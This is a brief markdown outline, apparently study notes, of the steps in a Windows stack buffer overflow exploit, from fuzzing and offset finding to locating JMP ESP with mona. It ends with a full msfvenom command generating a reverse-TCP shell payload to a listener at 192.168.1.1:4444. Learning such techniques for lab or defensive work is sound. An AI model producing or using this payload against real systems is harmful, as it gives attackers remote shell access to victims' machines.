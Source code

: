 1. Fuzz
- Use Spiking
- Use simple python script
2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
4. Find module and JMP ESP
- Use metasploit nasm_shell
- Use debugger and mona to find JMP ESP
5. Create shellcode
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
 ```
